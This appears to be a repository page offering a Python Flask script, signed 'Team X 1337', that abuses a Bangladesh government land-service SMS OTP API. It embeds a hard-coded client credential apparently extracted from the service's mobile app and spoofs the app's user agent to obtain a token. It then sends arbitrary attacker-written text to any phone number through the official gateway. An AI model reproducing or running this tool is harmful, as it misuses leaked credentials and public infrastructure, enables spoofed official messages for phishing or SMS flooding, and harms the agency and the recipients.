 # Land-gov-bd
https://bhuiyan247.github.io/Land-gov-bd/
import requests
from pprint import pprint
from flask import Flask, request
app = Flask(__name__)
@app.route('/')
def send_otp():
    n = request.args.get('n')
    m = request.args.get('m')
    if not n:
        return {"error":"Please Enter Number!"}
    if not m:
        return {"error":"Please Enter Message!"}

    tAPI = "https://idp.land.gov.bd/auth/realms/prod/protocol/openid-connect/token"

    token_headers = {
        "user-agent": "Dart/3.2 (dart:io)",
        "content-type": "application/x-www-form-urlencoded; charset=utf-8",
        "accept-encoding": "gzip",
        "authorization": "Basic bXV0YXRpb24tYXBwLWNsaWVudDphWTBBNVhFdlpLZHNwOGJzM0ZKNklwa0l4TmJWcHpGNg==",
        "host": "idp.land.gov.bd"
    }
    token_data = {
        "grant_type": "client_credentials"
    }
    token_resp = requests.post(tAPI, headers=token_headers, data=token_data)
    token_resp.raise_for_status()  # Raise exception for HTTP errors
    token = token_resp.json().get('access_token')

    mAPI = "https://sms-api.land.gov.bd/api/broker-service/otp/send_otp"
    otp_headers = {
        "user-agent": "Dart/3.2 (dart:io)",
        "accept": "application/json",
        "accept-encoding": "gzip",
        "host": "sms-api.land.gov.bd",
        "authorization": f"Bearer {token}",
        "content-type": "application/json; charset=utf-8"
    }
    otp_data = {
        "msgTmp": f"{m} $code",
        "destination": f"{n}",
        "otpType": "sms",
        "otpLength": 0
    }
    
    #Coded By Team X 1337

    otp_resp = requests.post(mAPI, headers=otp_headers, json=otp_data)
    otp_resp.raise_for_status()
    response = otp_resp.json()
    
    if response.get('success') and response.get('status') == 200:
        return {"msg":f"SMS sent to {n} successfully!", "Developer":"Team X 1337"}
    else:
        return {"error":"Failed To Send Sms!", "Developer":"Team X 1337"}

if __name__ == "__main__":
    app.run()
